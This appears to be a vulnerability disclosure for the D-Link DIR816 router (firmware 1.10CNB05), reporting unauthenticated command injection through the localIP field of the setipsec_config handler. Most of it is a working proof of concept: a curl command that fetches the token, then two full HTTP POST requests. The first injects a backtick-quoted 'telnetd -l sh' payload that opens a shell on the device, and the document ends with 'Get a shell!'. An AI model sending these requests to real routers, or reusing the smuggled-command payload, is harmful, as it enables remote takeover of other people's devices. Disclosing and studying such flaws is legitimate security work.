



# D-Link Vulnerability

Vendor:D-Link

Product:DIR816

Version:1.10CNB05

Type:Remote Command Execution

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)


## Vulnerability description

We found an command Injection vulnerability in D-Link router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.（without authentication）

Gets the token ID.

```
curl http://192.168.1.1/dir_login.asp | grep tokenid
```

**Remote Command Execution**

In `goahead` binary:

In `setipsec_config` function, `localIP、remoteIP` is directly passed by the attacker, so we can control the `localIP、remoteIP` to attack the OS.

As you can see here, the input has not been checked. And then,call the function `nvram_bufset ` to store this input.

<div  align="center"></div>

Eventually, in `IpsecAction` function, the initial input will be extracted and cause command injection.

<div  align="center"></div>

Vulnerability trigger steps:

* set `localIP`=**192.168.2.1 `telnetd -l sh`**, in (`setipsec_config`)
* Trigger the vulnerability, in (`IpsecAction`)

**Supplement**

in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part.


## PoC

set `localIP`=**192.168.2.1 `telnetd -l sh`**, in (`setipsec_config`)

```http
POST /goform/setipsec_config HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 428
Origin: http://192.168.1.1
Connection: close
Referer: http://192.168.1.1/d_wizard_step1_start.asp
Cookie: curShow=
Upgrade-Insecure-Requests: 1

connName=1&remoteGWAddr=any&localIPMode=1&localIP=192.168.2.1 `telnetd -l sh`&localMask=1&remoteIP=any&remoteIPMode=1&remoteMask=1&keyExM=1&authM=1&psk=1&certificateName=1&perfectFSEn=1&manualEncryptionAlgo=1&manualEncryptionKey=1&manualAuthAlgo=1&manualAuthKey=1&spi=1&ph1Mode=1&ph1EncryptionAlgo=1&ph1IntegrityAlgo=1&ph1DHGroup=1&ph1KeyTime=1&ph2EncryptionAlgo=1&ph2IntegrityAlgo=1&ph2DHGroup=1&ph2KeyTime=1&tokenid=1714636915
```

Trigger the vulnerability, in (`IpsecAction`)

```http
POST /goform/IpsecAction HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 41
Origin: http://192.168.1.1
Connection: close
Referer: http://192.168.1.1/d_wizard_step1_start.asp
Cookie: curShow=
Upgrade-Insecure-Requests: 1

actionType=en&actRule0=&tokenid=424238335
```


## Result

Get a shell!

<div  align="center"></div>

